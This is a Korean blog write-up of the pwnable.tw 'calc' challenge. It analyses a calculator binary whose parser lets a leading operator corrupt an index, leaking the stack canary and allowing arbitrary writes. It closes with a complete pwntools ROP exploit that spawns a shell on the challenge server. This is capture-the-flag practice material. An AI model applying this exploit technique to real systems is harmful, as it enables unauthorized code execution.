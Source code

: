 ```yaml
---
layout: post
title: ! ' [pwnable.tw] calc writeup '
excerpt_separator: <!--more-->
tags:
  - KRater
  - Write-up
  - pwnable.tw
  - pwnable
---
```


pwnable.tw 문제 풀었습니다. 150점 짜리면 세번째로 쉬운건데 너무 오래걸렸네요... 갈 길이 멉니다..

<!--more-->

## calc (150 pts)

[pwnable.tw](https://pwnable.tw/) 문제입니다. 여긴 난이도가 꽤 있는거 같아요.. 확실히 100pts 문제에 비해 푼 사람이 절반이라는 게 놀랍군요.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic01.PNG)

문제 자체는 상당히 심플한 프로그램입니다. 계산기에요. 근데 프로그램 코드가 좀 긴 편입니다. 분석하기 싫게 만들었어요. main 함수 안으로 들어가보면 알람 60초 걸어놓고 calc 함수를 호출하는 데, 이게 가장 중요한 함수입니다. 들어가서 의사코드로 확인해볼게요.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic02.PNG)

무한루프로 1분동안 계속 실행되고, get_expr, parse_expr 함수가 눈에 띕니다. get_expr 함수는 입력받아서 화이트리스트를 통해 올바르지 않은 입력값은 아예 받아들이지 않습니다. 반면에 걸러진 표현식은 expr 변수에 저장됩니다. 이 함수는 표현식이 올바른지는 검사하지 않습니다. 단지 화이트리스트 내의 원소에 포함인지만 검사해요.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic04.PNG)

parse_expr는 걸러진 표현식을 이용해 계산을 수행합니다. 내부적으로 eval 이라는 함수를 이용해서 계산하는데, 계산하는 방식이 조금 특이합니다. 16 + 4 라는 표현식을 계산한다고 가정 해 봅시다. 먼저 1과 6을 넘긴 뒤 '+'에 도달하면 표현식을 분해하기 시작합니다. 16은 2bytes를 차지하므로 null 까지 3bytes를 동적 할당한 뒤, 이를 atoi 함수를 이용해서 int형으로 바꾸어주는 작업을 합니다. 바뀐 숫자는 poll 배열에 들어갑니다. 그 뒤 기호 배열(s)이 현재 비어있으므로, '+' 기호를 기호 배열에 넣습니다. 다음 숫자 4를 넘기고 expr 분석을 종료하면 기호 배열에서 연산 기호를 빼내면서 차례대로 연산합니다. 만약 *, /가 등장하면 이는 스택처럼 작동하여 적절하게 우선순위 연산을 수행합니다.

parse_expr이 에러를 감지하는 경우는 크게 두가지입니다. 첫 번째로는 연산 기호 이후에 숫자가 오지 않았을 경우입니다. 두 번째로는 숫자에 '0'이 나오는 경우입니다. 이 두 가지의 경우는 계산을 강제로 종료하고, 나머지는 정해진 대로 연산을 수행합니다. 그런데 문제는 맨 처음에 숫자 대신 연산 기호가 나타나는 경우를 제어하고 있지 않아서 발생합니다.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic03.PNG)

현재 계산을 수행하는 과정은 가장 처음 표현식이 숫자라고 가정하면서 출발합니다. 만약 숫자, 연산기호, 숫자의 형식이 아니라 연산기호, 숫자의 형식으로 값이 들어와도 정상이라고 생각하죠.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic06.PNG)

보기 쉽게 바꿔주면 이렇습니다. IDA에서 구조체 선언은 처음 해봤는데 보기 편하네요. 

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic05.PNG)

eval에서 연산할 때 p->numbers의 배열을 참조하는데, 이때 cnt의 값에 따라서 참조하는 배열 위치가 다릅니다. 그런데 이부분을 init_pool에서 100개까지만 정리하므로 그 밖의 값들은 정리가 안될거에요. 그럼 이런 상황에서 만약에 '' + 100과 같은 값을 입력했다고 가정해봅시다. 일단 ''이 atoi('')에서 0을 반환하는 데, 0의 경우에는 numbers에 접근하지 않습니다. 근데 numbers에 접근하지 않으면 cnt도 증가시키지 않아요. 그리고 '+' 연산 기호가 스택에 들어가고, 100이 numbers에 접근하면서 cnt가 1이 됩니다.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic07.PNG)

지금 cnt가 1이죠. 그런데 eval 함수에서 더하기 연산을 하면서 `p->numbers[-1] = p->numbers[-1] + p->numbers[0]`이 됩니다. p->numbers[-1]은 p->cnt입니다. 그러면 p->cnt가 1이었다가 입력해준 숫자랑 더해지면서 101이 될겁니다. eval에서 마지막에 --p->cnt를 해주면서 다시 입력해 준 숫자가 됩니다. 결국 p->cnt가 매우 커졌을뿐만 아니라, 우리가 원하는 값으로 제어됩니다. 그럼 출력하는 부분을 볼까요?

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic08.PNG)

p->numbers[p->cnt - 1]입니다. 그러면 p->cnt가 우리가 입력한 값이니까 `입력한 값-1` 의 위치에 있는 정수를 출력할 수 있게됩니다. p->numbers의 0번째부터 canary까지는 `356(*4) bytes` 만큼 떨어져있으니, 입력할 값을 357로 해주면 canary가 출력됩니다.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic09.PNG)

또한 임의 메모리에 값을 덮어쓸 수도 있게되었습니다. 임의 메모리 오프셋으로 p->cnt 값을 조정해주고 거기다가 값을 더하거나 빼면 eval함수에서 해당 메모리의 값이 조작되니까요. 이를 기반으로 익스플로잇 코드를 작성했습니다.

```python
from pwn import *

PROCESS = "./calc"
HOST = "chall.pwnable.tw"
PORT = 10100
#r = process(PROCESS)
r = remote(HOST, PORT)

addr_bin_sh = 0x080ee360
_bin = 0x6e69622f
__sh = 0x0068732f

pop_eax = 0x0805c34b # pop eax; ret
pop_ecx_ebx = 0x080701d1 # pop ecx; pop ebx; ret
pop_edx = 0x080701aa # pop edx; ret
write_ecx = 0x080958c2 # add [ecx], eax; ret
int80 = 0x08070880 # int 0x80; ret

def main () :
	r.recvuntil("==\n")
	insert(361, pop_eax)
	insert(362, _bin)
	insert(363, pop_ecx_ebx)
	insert(364, addr_bin_sh)
	insert(365, addr_bin_sh)
	insert(366, write_ecx)
	insert(367, pop_eax)
	insert(368, __sh)
	insert(369, pop_ecx_ebx)
	insert(370, addr_bin_sh+4)
	insert(371, addr_bin_sh+4)
	insert(372, write_ecx)
	insert(373, pop_eax)
	insert(374, 0xb)
	insert(375, pop_ecx_ebx)
	insert(376, addr_bin_sh+8)
	insert(377, addr_bin_sh)
	insert(378, pop_edx)
	insert(379, addr_bin_sh+8)
	insert(380, int80)
	r.sendline("")

	# get shell
	r.interactive()

def insert (index, data) :
	show = "+" + str(index)
	r.sendline(show)
	origin = int(r.recvline())
	if (origin < 0) :
		origin *= -1

	payload = show
	payload += "+" + str(int(data))
	payload += "-" + str(origin)
	r.sendline(payload)
	print (payload)
	r.recv(1024)

if __name__ == '__main__' :
	main ()
```

.BSS 영역에 /bin/sh를 써주고 실행시키는 쉘 코드를 연산을 통해 작성했습니다. 쓰고보니 쓴 값에 따라서 꼬랑지가 결정되므로 좀더 이쁘게 쓸 수 있더라구요.. 그래도 뭐 작동하니까요 ㅎ..

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic10.PNG)

읽어주셔서 감사합니다 :)